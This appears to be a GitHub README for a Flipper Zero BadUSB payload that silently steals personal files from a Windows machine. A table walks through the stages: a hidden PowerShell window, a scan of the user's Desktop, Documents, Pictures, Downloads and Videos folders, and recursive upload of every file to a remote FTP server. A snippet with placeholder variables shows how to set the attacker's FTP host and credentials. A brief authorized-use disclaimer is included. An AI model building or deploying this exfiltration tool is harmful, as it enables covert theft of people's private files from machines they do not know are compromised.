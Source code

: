 # 🐄 BadUSB FTP Uploader (Flipper Zero BadUSB)

## 🧬 Overview

This payload is engineered for Flipper Zero’s **BadUSB module** to silently exfiltrate personal files from a Windows machine using a hidden PowerShell session. Target folders include common user directories like Desktop, Documents, Pictures, Downloads, and Videos. All non-folder files are recursively uploaded to a remote **FTP server**.

> ⚠️ This script is for ethical use in **authorized environments only** (e.g., red team ops, penetration testing, informed demonstrations).

---

## 🛠️ How It Works

| Stage             | Action                                                                 |
|------------------|-------------------------------------------------------------------------|
| `DELAY`, `GUI r` | Opens Windows Run dialog after boot delay                              |
| PowerShell launch| Runs PowerShell with `-WindowStyle Hidden` to suppress UI              |
| FTP setup        | Declares FTP server, username, and password                            |
| Folder list      | Scans `$env:USERPROFILE` for folders: Desktop, Documents, etc.         |
| File loop        | Recursively finds files (excludes folders)                             |
| Upload           | Instantiates `System.Net.WebClient` and calls `UploadFile()` for each  |

---

## ✏️ How to Edit the FTP Target

To point this payload to your own FTP server:

```powershell
$ftpServer = "ftp.example.com"
$ftpUser   = "YOUR_FTP_USERNAME"
$ftpPass   = "YOUR_FTP_PASSWORD"
